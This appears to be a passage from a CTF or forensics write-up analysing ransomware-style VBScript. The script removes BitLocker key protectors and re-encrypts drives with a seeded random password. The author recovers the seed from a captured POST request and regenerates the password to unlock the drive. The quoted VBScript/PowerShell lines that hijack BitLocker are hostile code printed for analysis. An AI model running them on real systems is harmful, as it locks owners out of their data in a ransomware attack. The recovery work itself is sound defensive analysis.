 The most interesting part of the code was a series of PowerShell commands that removed existing BitLocker instances, generated a new BitLocker password, and created a new BitLocker instance with that password:
```vbscript
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command ""$protectors = (Get-BitLockerVolume -MountPoint " & drives(i) & ").KeyProtector; if ($protectors -ne $null) { foreach ($protector in $protectors) { Remove-BitLockerKeyProtector -MountPoint " & drives(i) & " -KeyProtectorId $protector.KeyProtectorId } }""")).stdout.readall) > 0 Then: End If
			
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command $a=ConvertTo-SecureString " & Chr(34)  & Chr(39) & strRandom & Chr(39)  & Chr(34) & " -asplaintext -force;Enable-BitLocker " & drives(i) & " -s -qe -pwp -pw $a")).stdout.readall) > 0 Then: End If

If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command Resume-BitLocker -MountPoint " & drives(i) & " ")).stdout.readall) > 0 Then: End 
```

The password for BitLocker was generated using the random string from the earlier code. We had everything needed to reconstruct the password except for the seed, which was sent in the `POST` request. By examining the pcap again, I found the `POST` request to `/updatelog`, which contained the hostname and seed encoded in base64.
![[updatelog.png]]

**DECODED CONTENT**
```
upgrade=DESKTOP-59C1C3D	43906.83
```

Now as the seed is gather the password can be generated just as in the code and be encrypted with this powershell command.
```powershell
$password = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
Unlock-BitLocker -MountPoint "D:" -Password $password
```

With the seed gathered, I was able to regenerate the password using the same VBScript logic:
```vbscript
Dim strRandom characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog" 
Rnd(-1) 
Randomize seed 
strRandom = "" 
For i = 1 To 64 
	randomNum = Int(Len(characters) * Rnd(2)) 
	randomChar = Mid(characters, randomNum + 1, 1) 
	strRandom = strRandom & randomChar 
	Next 
WScript.Echo "Generated Random String: " & strRandom
```

Running this script produced the correct password:
```powershell
C:\Users\magnus\Desktop\shrunk>cscript.exe generator.vbs
Microsoft (R) Windows Script Host versjon 5.812 Copyright (C) Microsoft Corporation. Med enerett. 
Generated Random String: _tfeTIO$*Vy##f@GyRfDEJvRvNerHHDrE=GHr0CRFgSX3VYD4koa-LUU&OTDe;rb
```
